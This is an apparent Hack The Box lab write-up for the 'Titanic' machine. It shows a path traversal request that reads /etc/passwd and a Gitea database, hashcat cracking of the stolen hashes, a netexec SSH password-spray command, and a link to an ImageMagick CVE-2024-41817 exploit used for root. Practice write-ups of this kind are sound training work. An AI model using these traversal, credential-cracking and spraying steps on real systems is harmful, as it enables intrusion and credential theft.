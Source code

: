 ```yaml
---
layout: post
title: "[HTB] Titanic"
difficulty: Easy
tags: [path-traversal, lfi, hashcat]
status: Complete
updated_date: 2025-07-03
---
```

***

## Quick Hits:

| Info | Details |
| ---- | ------- |
| **IP Address** | 10.10.11.55 |
| **Difficulty** | 🟢 Easy |
| **Exploits** | Path Traversal, Local File Inclusion |
| **Tools Used** | `hashcat` |
| **Techniques Used** |  |
| **Interesting Files** | `~/gitea/data/gitea/conf/app.ini` |

#### Port Scan Results:

| Port | State | Service | Version |
| ---- | ----- | ------- | ------- |
| 22/tcp | open | ssh | OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0) |
| 80/tcp | open | http | Apache httpd 2.4.52 (Ubuntu) |

***

## Walk-through

We are greeted by a Cruise Service named after the infamous **Titanic**. One would usually think twice about any ship that's named after one that sank, but not here! Most of the site still seems to be under construction since most links are *dead*. Fortunately for the Cruise owners (or unfortunately, we'll see why later), the **Booking System** seems to be in order.

Booking a trip has the site respond back with a JSON confirmation of the trip, and a redirect to `/download` the `ticket`. Based on this, the ticket details are being stored in a JSON file in the back-end which is then served up to the browser for download.

### Path Traversal / Local File Inclusion

By simply changing the request from `GET /download?ticket={uuid}.json` to `GET /download?ticket=../../../../etc/passwd`, we can grab files from the local file system. It's here that we can access the `/etc/hosts` file and find the `dev.titanic.htb` domain.

```
127.0.0.1  localhost  titanic.htb  dev.titanic.htb
127.0.1.1  titanic

\# The following lines are desirable for IPv6 capable hosts
::1  ip6-localhost ip6-loopback
fe00::0  ip6-localnet
ff00::0  ip6-mcastprefix
ff02::1  ip6-allnodes
ff02::2  ip6-allroutes
```

### Gitea

Visiting the newly acquired subdomain gives us a Gitea page with the `developer/docker-config` and `developer/flask-app` repos. `flask-app` contains the source of the Cruise website while `docker-config` contains the `docker-compose.yml` file used to start the `Gitea` instance.

We can recreate the `Gitea` docker instance using the `docker-compose.yml` file through the following commands.

`docker compose up -d`
`docker compose exec -it gitea sh`

This allows us to confirm the file structure of the `/home/developer/gitea` directory and obtain `/home/developer/gitea/data/gitea/conf/app.ini` using the LFI vulnerability earlier. This is the Gitea configuration file which contains a `PATH` to the `/data/gitea/gitea.db` file.

```
[database]
PATH = /data/gitea/gitea.db
DB_TYPE = sqlite3
HOST = localhost:3306
NAME = gitea
USER = root
PASSWD =
LOG_SQL = false
SCHEMA =
SSL_MODE = disable
```

Again using the LFI vulnerability, we can request this file and obtain the Gitea database. This contains password hashes of `administrator` and `developer` users that we can then run through `gitea2hashcat.py` and crack using the following command:

`sqlite3 gitea.db 'select salt,passwd from user;' | python3 gitea2hashcat.py`
`hashcat hashes.txt /usr/share/wordlists/rockyou.txt`

Giving us the credentials `developer`:`25282528`.

**TIP:** You can use netexec to password spray the usernames if they're not already filled.
`nxc ssh 10.10.11.55 -u users.txt -p '25282528'`

***And, we're in!***

### Privilege Escalation

Running `linpeas.sh` would give us an interesting script in `/opt/scripts/identify_images.sh`.

```
developer@@titanic:/opt/scripts$ cat identify_images.sh
cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log
```

This seems to run magick on all JPG images within a folder and then pipe those results into a log file.

```
developer@@titanic:/opt/scripts$ ls -al /opt/app/static/assets/images
total 1288
drwxrwx---  2  root  developer  4096  Feb  3  17:13 .
drwxr-x---  2  root  developer  4096  Feb  7  10:37 ..
-rw-r-----  1  root  developer  291864  Feb  3  17:13 entertainment.jpg
-rw-r-----  1  root  developer  280854  Feb  3  17:13 exquisite-dining.jpg
-rw-r-----  1  root  developer  209762  Feb  3  17:13 favicon.ico
-rw-r-----  1  root  developer  232842  Feb  3  17:13 home.jpg
-rw-r-----  1  root  developer  280817  Feb  3  17:13 luxury-cabins.jpg
-rw-r-----  1  root  developer  442  Jun  18  19:09 metadata.log
```

Seeing as `metadata.log` can only be written to by `root` and that changes are made to it every minute, it would be safe to say that `identify_images.sh` runs periodically using the `root` account and is a potential PrivEsc route.

Checking the `magick` version (`/usr/bin/magick -version`) gives us `ImageMagick` version v7.1.1-35, vulnerable to Arbitrary Code Execution in **CVE-2024-41817**.

We can then run the [exploit.py](https://raw.githubusercontent.com/Dxsk/CVE-2024-41817-poc/refs/heads/main/exploit.py) PoC script to obtain `root` access. **And, we're done!**

***

###### This is currently a Work-In-Progress. More changes to formatting, tags and explanations to come!
